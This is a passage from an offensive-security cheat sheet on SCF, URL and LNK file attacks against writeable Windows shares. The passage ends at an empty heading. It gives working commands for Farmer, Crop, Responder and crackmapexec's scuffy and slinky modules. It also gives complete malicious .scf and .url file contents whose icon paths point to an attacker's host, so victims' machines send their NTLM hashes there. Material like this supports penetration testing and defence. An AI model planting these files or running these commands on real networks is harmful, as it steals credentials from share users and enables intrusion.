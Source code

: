 ### SCF and URL file attack against writeable share

Theses attacks can be automated with [Farmer.exe](https://github.com/mdsecactivebreach/Farmer) and [Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)

```ps1
# Farmer to receive auth
farmer.exe <port> [seconds] [output]
farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
farmer.exe 8888 60 # one minute

# Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```

#### SCF Files

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

```powershell
[Shell]
Command=2
IconFile=\\10.10.10.10\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

Using [`crackmapexec`](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/slinky.py):

```ps1
crackmapexec smb 10.10.10.10 -u username -p password -M scuffy -o NAME=WORK SERVER=IP_RESPONDER #scf
crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER #lnk
crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER CLEANUP
```

#### URL Files

This attack also works with `.url` files and `responder -I eth0 -v`.

```powershell
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

#### Windows Library Files 
